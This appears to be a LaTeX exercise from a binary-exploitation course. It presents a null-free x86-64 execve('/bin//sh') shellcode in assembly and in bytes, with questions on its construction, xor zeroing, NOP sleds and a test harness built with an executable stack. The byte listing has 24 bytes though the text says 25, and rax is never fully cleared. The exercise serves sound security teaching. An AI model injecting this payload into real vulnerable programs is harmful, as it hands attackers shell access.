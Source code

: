\documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{rappel}
\medskip
\textbf{Null byte constraint:} C string handling functions (\texttt{strcpy}, \texttt{gets}, etc.) stop at the first \texttt{0x00} byte. Therefore, the shellcode must contain \textbf{no null bytes}.
\end{rappel}

\medskip
Here is a 25-byte x86-64 shellcode that executes \texttt{execve("/bin//sh", NULL, NULL)}:

\begin{lstlisting}[style=AsmStyle,title=Shellcode execve -- 25 bytes]
xor    rsi, rsi               ; rsi = 0 (argv = NULL)
push   rsi                    ; push 0 (string terminator)
movabs rdi, 0x68732f2f6e69622f ; rdi = "/bin//sh"
push   rdi                    ; push "/bin//sh" onto the stack
push   rsp                    ; push the stack top address
pop    rdi                    ; rdi = pointer to "/bin//sh"
xor    rdx, rdx               ; rdx = 0 (envp = NULL)
mov    al, 59                 ; rax = 59 (execve syscall number)
syscall                       ; execve system call
\end{lstlisting}

Byte representation:
\begin{lstlisting}[style=GDBStyle]
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68
\x57\x54\x5f\x48\x31\xd2\xb0\x3b\x0f\x05
\end{lstlisting}

\begin{enumerate}
\item[\textbf{2a)}] For each instruction in the shellcode above, explain its role in constructing the \texttt{execve("/bin//sh", NULL, NULL)} call.

\item[\textbf{2b)}] Why do we use \texttt{xor rsi, rsi} instead of \texttt{mov rsi, 0} to zero a register? What problem would \texttt{mov rsi, 0} cause? (Hint: examine the opcodes with \texttt{objdump} or an online assembler.)

\item[\textbf{2c)}] Explain the concept of the \textbf{NOP sled} (\texttt{0x90} = \texttt{NOP} instruction). Draw a diagram showing why we aim at the middle of the NOP sled rather than exactly at the beginning of the shellcode.

\item[\textbf{2d)}] Compile and test the program \texttt{test\_shellcode.c}:
\begin{lstlisting}[style=GDBStyle]
gcc -z execstack -o test_shellcode test_shellcode.c
./test_shellcode
\end{lstlisting}
What happens? Type \texttt{exit} to quit the obtained shell.
\end{enumerate}


\end{exercice}
\end{document}
